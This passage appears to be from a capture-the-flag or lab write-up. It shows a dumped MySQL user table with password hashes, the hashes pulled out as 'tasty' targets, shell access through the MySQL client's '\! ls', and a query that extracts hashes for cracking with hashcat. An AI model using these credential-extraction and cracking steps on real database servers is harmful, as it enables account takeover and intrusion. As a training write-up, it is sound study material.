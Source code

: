 ```
| localhost | dbuser           | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | N          | Y               | Y          | Y          | Y            | Y          | Y                     | Y                | Y            | Y               | Y                | Y                | Y              | Y                   | Y                  | Y                | Y          | Y            | Y                      |          |            |             |              |             0 |           0 |               0 |                    0 | mysql_native_password | *9CFBBC772F3F6C106020035386DA5BBBF1249A11 | N                | 2020-01-24 12:13:19   |              NULL | N              |
| localhost | robert           | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | N          | Y               | Y          | Y          | Y            | Y          | Y                     | Y                | Y            | Y               | Y                | Y                | Y              | Y                   | Y                  | Y                | Y          | Y            | Y                      |          |            |             |              |             0 |           0 |               0 |                    0 | mysql_native_password | *2429DD64CD7A63687EA257432557FEFDA6D6F2A1 | N                | 2020-01-24 14:04:26   |              NULL | N              |
+-----------+------------------+-------------+-------------+-------------+-------------+-------------+-----------+-------------+---------------+--------------+-----------+------------+-----------------+------------+------------+--------------+------------+-----------------------+------------------+--------------+-----------------+------------------+------------------+----------------+---------------------+--------------------+------------------+------------+--------------+------------------------+----------+------------+-------------+--------------+---------------+-------------+-----------------+----------------------+-----------------------+-------------------------------------------+------------------+-----------------------+-------------------+----------------+
6 rows in set (0.00 sec)
```

Some tasty hashes...

```
debian-sys-maint:D1DBADEE9E3EE2D0767B40F19463FB6C5EB6D594
dbuser:9CFBBC772F3F6C106020035386DA5BBBF1249A11
robert:2429DD64CD7A63687EA257432557FEFDA6D6F2A1
```

## Trying to run commands

According to this article,

<https://electrictoolbox.com/shell-commands-mysql-command-line-client/>

I can use `\! ls` to run bash commands as the MySQL user. Perhaps they have root...

Nope. It's just robert.


## Trying to crack hashes

Going to use hashcat to try to crack these hashes.

<https://www.percona.com/blog/2020/06/12/brute-force-mysql-password-from-a-hash/>

Going to use this command to first extract the hashes in a better format.

    % mysql -Ns -uroot -e "SELECT SUBSTR(authentication_string,2) AS hash FROM mysql.user WHERE plugin = 'mysql_native_password' AND authentication_string NOT LIKE '%THISISNOTAVALIDPASSWORD%' AND authentication_string !='';" > sha1_hashes

